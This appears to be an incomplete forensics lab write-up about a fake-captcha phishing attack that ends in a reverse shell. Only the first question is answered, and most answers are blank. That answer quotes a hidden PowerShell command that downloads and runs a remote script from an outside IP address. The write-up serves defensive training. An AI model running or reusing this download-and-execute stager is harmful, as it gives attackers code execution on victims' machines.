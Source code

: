 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.



Q2: At what time in UTC did the malicious payload execute?

A: 

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 

Q4: To which port did the reverse shell connect?

A: 

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 
